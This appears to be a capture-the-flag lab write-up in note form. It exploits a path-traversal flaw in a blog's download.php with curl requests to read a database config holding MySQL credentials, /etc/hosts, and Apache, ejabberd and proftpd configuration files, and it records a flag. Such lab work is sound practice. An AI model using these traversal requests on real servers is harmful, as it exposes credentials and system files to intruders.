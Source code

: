 teo
kevin
ejabberd
oana


curl -k -X POST https://192.168.1.144:15020/blog/download.php --data "image=../blog/classes/db.php"
<?php

    $lnk = mysql_connect("localhost", "mini", "password000");
    $db = mysql_select_db('blog', $lnk);

?>

curl -k -X POST https://192.168.1.144:15020/blog/download.php --data "image=../blog/admin/index.php"
/blog/admin/index.php 
Flag 3 - found as Philippines: 551d3350f100afc6fac0e4b48d44d380

Philippines:551d3350f100afc6fac0e4b48d44d380

curl -k -X POST https://192.168.1.144:15020/blog/download.php --data "image=/etc/hosts"
127.0.0.1       localhost
127.0.1.1       debian.stl.int  debian

Found an http server for ejabber,but I don't know of nor found anything of use here.
192.168.1.144	debian.stl.int
https://debian.stl.int:5280/http-bind
https://debian.stl.int:5280/admin



curl -k -X POST https://192.168.1.144:15020/blog/download.php --data "image=/etc/default/ejabberd"
service ejabberdctl.cfg > file found

Unfortunately EJABBERD_CONFIG_PATH=/etc/ejabberd/ejabberd.yml is not readable by all users.
If we can figure out if they have any mods enabled and the name, we may be able to read them from

/etc/ejabberd/modules.d/

curl -k -X POST https://192.168.1.144:15020/blog/download.php --data "image=/run/ejabberd/ejabberd.pid"
423
We now know the process number it runs under, 

curl -k -X POST https://192.168.1.144:15020/blog/download.php --data "image=/etc/apache2/sites-available/default-ssl.conf"
<IfModule mod_ssl.c>
  <VirtualHost _default_:15020>
     ServerAdmin webmaster@localhost

     DocumentRoot /var/www/ssl

/var/www/ssl/


curl -k -X POST https://192.168.1.144:15020/blog/download.php --data "image=/etc/proftpd/proftpd.conf"
Looks like only user "proftpd" is allowed and no anonymous ftp.
